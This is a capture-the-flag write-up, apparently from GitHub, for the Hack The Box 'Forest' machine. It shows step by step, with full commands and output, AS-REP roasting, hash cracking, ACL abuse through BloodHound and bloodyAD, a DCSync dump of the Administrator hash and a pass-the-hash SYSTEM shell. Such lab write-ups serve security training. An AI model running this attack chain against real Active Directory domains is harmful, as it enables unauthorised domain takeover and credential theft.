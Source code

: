 <p align="center">
  <img src="img/Forest.png" alt="Description de l'image" width="300"/>
</p>

# Intro

Forest was my first AD machine after completed the CPTS path of HTB.
It's a well known machine for getting started with Active Directory environments. It is an easy-rated machine. The pentest is performed in a black box context as we have no credentials, only the machine's IP address.
I started by a ASREP-Roasting and found that `svc_alfresco` do not requirer Kerberos pre-auth and succesfuly cracked offline his TGT.
After that I used his account to harvest all the domain ACLs and discovered that `svc_alfresco` is a part of the `Account Operators` which has the `GenericAll` over the `Exchange Windows Permissions`.
This group has the `DCSync` ACL over the domain. So I performed a DCSync attack to recover the `Administrator` NT hash and fully compromised the domain

# Walkthough

## Enumeration

I began to enumerate services on the host with the `nmap` tool.

```bash
 # nmap -sV -sC -p- -T5 10.129.62.73

PORT      STATE SERVICE      VERSION
25/tcp    open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-15 12:44:26Z)
110/tcp   open  pop3-proxy   Avast! anti-virus pop3 proxy (cannot connect to 10.129.62.73)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
143/tcp   open  imap-proxy   Avast! anti-virus IMAP proxy (cannot connect to 10.129.62.73)
|_imap-capabilities: CAPABILITY
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
465/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 465
587/tcp   open  smtp-proxy   Avast! anti-virus smtp proxy (cannot connect to 10.129.62.73)
|_smtp-commands: SMTP EHLO htb.local: failed to receive data: connection closed
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
993/tcp   open  tcpwrapped
995/tcp   open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49681/tcp open  msrpc        Microsoft Windows RPC
49698/tcp open  msrpc        Microsoft Windows RPC
49996/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2025-10-15T02:56:25-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2025-10-15T09:56:23
|_  start_date: 2025-10-15T08:53:18
```

Kerberos and LDAP services are exposed on the host, which leads to conclude that this is a Domain Controller within an Active Directory environment.
The domain name is `htb.local` and The DC FQDN is `FOREST.htb.local`.

I added this information to /etc/hosts.

```bash
# echo '10.129.62.73 htb.local FOREST.htb.local FOREST' >> /etc/hosts 
```

## Kerberoasting `svc-alfresco`

It seems like nmap was able to retrieve several information, maybe smb is accessible from an anonymous connexion.
Let's confirm that with NetExect.

```bash
# nxc smb FOREST.htb.local -u '' -p ''
SMB         10.129.62.73    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.62.73    445    FOREST           [+] htb.local\:
```

It's confirmed, it is the same for ldap?

```bash
nxc ldap FOREST.htb.local -u '' -p ''
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
```

Yes! So whith that, we can perfrom an AS-REP Roast attack to request a user TGT without his password.

```bash
# nxc ldap 10.129.62.73 -u '' -p '' --asreproast asreproast.txt
LDAP        10.129.62.73    389    FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.62.73    389    FOREST           [+] htb.local\:
LDAP        10.129.62.73    389    FOREST           [*] Total of records returned 1
LDAP        10.129.62.73    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452
```

Here is the hash! Notice that no userlist is necessary because the null session is allowed and the tool enumerate first the usernames and make the AS-REQ automaticaly for each users.

## Cracking `svc-alfresco` hash

I tried to crack this AS-REP hash with `Hashcat` to revael the `svc-alfresco` password.

```bash
# hashcat -m 18200 asreproast.txt /opt/lists/rockyou.txt       

$krb5asrep$23$svc-alfresco@HTB.LOCAL:68342ef59bc941531618bb589cedd8b9$703ea2b719fbf84824611c4a36e59852274e2965faea332486dd5a722303a807aa6725bb329781f67eb5658f04b87d2ff9053d1840c47838b432d96101ca7dd50251a8c3d5c43a7835d5738ab027807d30692966ead77e33e4011fe47bb7a073a347afd640a2016bda5bdde0c0b96e5c08cd6019867d784be570a5796c7f238fd28cbd0defb930880719502dfd430d47bfe86c1a18de199a44a5163b11eddc794ef682f8d16c807c6b2bbc621a43506a4f5bbea0fc499c92f9f82b37f9e0a0689c938ac1e1cdd6a4dfff8bfe16c88965469cc3b8c89ef41655f9b8999dd3ab73885b7e083452:s3rvice

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

The hash is cracked! I have a first domain credential:
`svc-alfreso:s3rvice`

## Enumerating ACLs with Bloodhound

I used `bloodhound.py` to dumps all ACLs of 

```bash
# # bloodhound.py --zip -c All -u 'svc-alfresco' -p 's3rvice' -dc FOREST.htb.local -d htb.local -ns 10.129.62.73
```

Let's check with `Bloodhound` the attacks path I have from `svc-alfresco`.

![](img/svc-alfresco.png)

This account, through several groups, is a part of the powerfull `Account Operators` group. 
This group have permissions to create, modify, and delete most user accounts, groups, and computers, with the exception of administrative accounts and groups.
Moreover I see that `Account Operators` has the `GenericAll` ACL over the `Exchange Windows Permissions` group.

![](img/exchangeWindowsPermissions.png)

This group has the `WriteDacl` over the `htb.local` domain!

Here the path is clear, I'll create a new user and add it to `Exchange Windows Permissions` group. After that, I'll add the DCSync ACL to `svc-alfresco` over `htb.local` domain.
Finally, I'll perform a DCSync attack to recover the `Administrator` hash to compromise the domain.

## Creating a new user

I use the `Bloody-AD` tool for all steps.

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add user m3ringue 'Bagu3tte!'
[+] m3ringue created
```

## Adding `m3ringue` to `Exchange Windows Permissions` group

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "svc-alfresco" -p "s3rvice" add groupMember "exchange windows permissions" m3ringue
[+] m3ringue added to exchange windows permissions
```

## Adding DCSync ACL to `m3ringue`

```bash
# bloodyAD --host "FOREST.htb.local" -d "htb.local" -u "m3ringue" -p 'Bagu3tte!' add dcsync m3ringue
[+] m3ringue is now able to DCSync
```

## Performing the DCSync attack

```bash
# secretsdump -just-dc-user administrator htb.local/m3ringue:B4guette@10.10.10.161
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
The administrator password NT hash is dumped!
`Administrator:32693b11e6aa90eb43d32c72a07ceea6`

## Connecting to the DC

I use the psexec.py tool to connect to the DC.

```bash
# psexec.py -hashes :"32693b11e6aa90eb43d32c72a07ceea6" "htb.local"/"administrator"@"FOREST.htb.local"
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on FOREST.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file IMnGApIn.exe
[*] Opening SVCManager on FOREST.htb.local.....
[*] Creating service MnJq on FOREST.htb.local.....
[*] Starting service MnJq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

I have now a shell as `nt authority\system`!
